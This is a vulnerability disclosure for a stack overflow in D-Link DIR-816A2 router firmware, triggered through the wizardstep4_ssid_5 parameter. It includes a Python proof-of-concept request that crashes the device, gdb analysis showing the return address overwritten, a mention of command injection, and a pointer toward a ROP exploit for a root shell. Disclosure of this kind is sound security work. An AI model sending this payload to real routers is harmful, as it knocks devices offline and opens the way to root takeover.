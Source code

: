 # Affected Version

Dlink DIR-816A2\_FWv1.10CNB05.

# Vulnerability Description

Dlink DIR-816A2\_FWv1.10CNB05 was discovered to contain a stack overflow via parameter wizardstep4\_ssid\_5.

# Firmware download address

Manufacturer's address: <https://www.dlink.com/>

Firmware download address: [D-Link Technical Support (dlink.com.cn)](http://www.dlink.com.cn/techsupport/AllPro.aspx)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/1.png?raw=true)

# Vulnerability Details

From the following, we can see that there are two places where our input parameters wizardstep4\_ssid\_2 and wizardstep4\_ssid\_5 are written into v25 respectively, and there is no length limit. Every time we write our parameters to v25, we perform a doSystem operation, which allows for command injection through both parameters, as we mentioned in the previous article.

Here we focus on v19 and v20, which are respectively written into v25 without length restrictions, which can cause stack overflow. Due to repeated writes into a buffer, we have decided to cause overflow when v20 is written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/7.jpg?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/8.jpg?raw=true)

# Recurring vulnerabilities and POC

```python
import requests

url = "http://192.168.1.25/goform/dir_setWanWifi"

data = {
    'connecttype':'DHCP',
    'statuscheckpppoeuser':'0',
    'wizardstep4_ssid_2':'123456',
    'wizardstep4_ssid_5':'a'*1000
}

response = requests.post(url,data=data)
```

The following is the result in gdb after sending POC:

Firstly, execute sprintf to write parameter A to v25, corresponding to the circled part in IDA:

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/9.jpg?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/10.jpg?raw=true)

The result returned by sprintf is 0x3fe, indicating that our parameters were successfully written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/11.jpg?raw=true)

Continuing with the following execution until the function reaches its end, it can be observed that the return address has been overwritten as' aaaa '.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/12.jpg?raw=true)

Continuing to run will cause the program to crash.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/13.jpg?raw=true)

Entering again will result in no response.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/14.jpg?raw=true)

And you can write your own exp(ROP gadget) to get the root shell.
